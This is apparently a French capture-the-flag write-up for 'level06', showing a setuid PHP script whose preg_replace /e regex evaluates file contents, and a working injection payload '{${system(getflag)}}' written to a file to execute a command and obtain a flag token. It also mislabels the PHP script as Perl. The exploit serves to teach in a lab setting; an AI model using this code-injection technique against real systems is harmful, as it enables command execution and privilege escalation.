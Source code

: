 # LEVEL 06

- Same as usual
```
ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
cat level06.php
```


```php
#!/usr/bin/php
<?php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>

```

- `preg_replace` est la seule fonction appellee, en googlant 'preg_replace exploit' on trouve [ca](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)
- Le script perl:
	1. lit un fichier dont le nom est passe en deuxieme argument
	2. passe le contenu de ce fichier a travers une regex de substitution
	3. execute le code
- On veut excecuter getflag dans un terminal, ce qui donne en perl `system(getflag)`
- On doit donc ecrire dans un fichier une string qui apres transformation par la regex donne `system(getflag)`
- Une session de bidouille intense sur ce [site](https://www.functions-online.com/preg_replace.html) de regex nous permet de trouver la solution: `{${system(getflag)}}`

```bash
echo "[x {\${system(getflag)}}]" > /var/crash/level06
./level06 /var/crash/level06 xxx
```
```
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```


`echo '[x {${system(getflag)}}]' > /tmp/lol; ./level06 /tmp/lol lol`
- On peut se log avec `wiok45aaoguiboiki2tuin6ub`
